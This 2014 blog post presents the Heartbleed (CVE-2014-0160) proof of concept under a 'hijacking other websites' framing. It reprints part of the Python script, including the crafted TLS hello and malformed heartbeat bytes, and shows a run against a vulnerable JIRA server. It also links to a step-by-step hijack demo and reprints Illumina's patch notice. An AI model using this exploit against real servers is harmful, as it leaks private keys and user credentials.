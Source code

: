 ```yaml
---
title: Hijacking Other Websites Using CVE-2014-0160 - Code and Demo
tags: []
categories:
- blog
---
```

**1\. Python code available** [in this link](https://gist.github.com/takeshixx/10107280) and snippet of code is posted below. You will find other examples in the comment section of the link. 
<!--more-->

`

#!/usr/bin/env python2

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford
(jspenguin@jspenguin.org)

# The author disclaims copyright to this source code.

import sys

import struct

import socket

import time

import select

import re

from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for
SSL heartbeat vulnerability (CVE-2014-0160)')

options.add_option('-p', '--port', type='int', default=443, help='TCP port to
test (default: 443)')

options.add_option('-s', '--starttls', action='store_true', default=False,
help='Check STARTTLS')

options.add_option('-d', '--debug', action='store_true', default=False,
help='Enable debug output')

def h2bin(x):

return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''

16 03 02 00 dc 01 00 00 d8 03 02 53

43 5b 90 9d 9b 72 0b bc 0c bc 2b 92 a8 48 97 cf

bd 39 04 cc 16 0a 85 03 90 9f 77 04 33 d4 de 00

00 66 c0 14 c0 0a c0 22 c0 21 00 39 00 38 00 88

00 87 c0 0f c0 05 00 35 00 84 c0 12 c0 08 c0 1c

c0 1b 00 16 00 13 c0 0d c0 03 00 0a c0 13 c0 09

c0 1f c0 1e 00 33 00 32 00 9a 00 99 00 45 00 44

c0 0e c0 04 00 2f 00 96 00 41 c0 11 c0 07 c0 0c

c0 02 00 05 00 04 00 15 00 12 00 09 00 14 00 11

00 08 00 06 00 03 00 ff 01 00 00 49 00 0b 00 04

03 00 01 02 00 0a 00 34 00 32 00 0e 00 0d 00 19

00 0b 00 0c 00 18 00 09 00 0a 00 16 00 17 00 08

00 06 00 07 00 14 00 15 00 04 00 05 00 12 00 13

00 01 00 02 00 03 00 0f 00 10 00 11 00 23 00 00

00 0f 00 01 01

''')

hb = h2bin('''

18 03 02 00 03

01 40 00

''')`

2\. [Matthew Sullivan's blog](https://www.mattslifebytes.com/?p=533) **gives a
step-by-step demonstration of how to hijack other sites**. Others in the
comment section tried his method and were successful.

> As of this morning, the most widely-shared proof-of-concept is this simple
Python script: https://gist.github.com/takeshixx/10107280. With this script,
anyone in the world can dump a bit of RAM from a vulnerable server.

Lets have a look at the output of this utility against a vulnerable server
running the JIRA ticket tracking system. The hex output has been removed to
improve readability.

[matt@laptop ~]# python heartbleed.py jira.XXXXXXXXXXX.com

Connecting...

Sending Client Hello...

Waiting for Server Hello...

3\. [In this link](http://filippo.io/Heartbleed/) **you can check whether your
site or other sites you access using password are protected**. We tested
Illumina Basespace.

![Capture](http://www.homolog.us/blogs/wp-
content/uploads/2014/04/Capture13-300x101.png)

We contacted Illumina with above concerns and they sent us [this Security
Update](http://blog.basespace.illumina.com/2014/04/16/security-update-
concerning-openssl-heartbleed/).

> Security Update Concerning OpenSSL Heartbleed

We take the security of your data very seriously at Illumina. As one of many
safeguarding measures, BaseSpace uses encryption software to ensure the
privacy and security of both your user login information and your sequencing
data as it travels from Illuminas sequencing instruments into our cloud
environment.

Recently, a security threat with a common encryption library that is widely
used by many websites (including BaseSpace) was found to have a major
vulnerability in it. The security threat was published on April 7th, 2014 for
the OpenSSL library (CVE-2014-0160 ) and quickly came to our attention. The
vulnerability, nicknamed Heartbleed, had the potential to allow an attacker to
steal private keys or other sensitive information that is normally encrypted
via SSL. The nickname came about because of the way an attacker could gain
access to a servers memory through the OpenSSL specific heartbeat protocol.

Once we assessed the situation we quickly worked with our platform vendor and
internal teams to ensure the following was completed:

All affected servers were patched with the updated/non-affected version of
OpenSSL. This was completed less than 24 hours after the announcement.

All of our public facing SSL certificates were replaced. All of the old SSL
certificates are now being revoked.

All login sessions older than 24 hours were automatically invalidated.

We have no information that knowledge of this vulnerability was used against
BaseSpace or its users. However, as with all websites that have updated their
OpenSSL libraries, we encourage everyone to change their BaseSpace password.
You should also check your notification history for any suspicious activity.

4\. and if all of the above methods fail, **learn from a Khan Academy dude.**

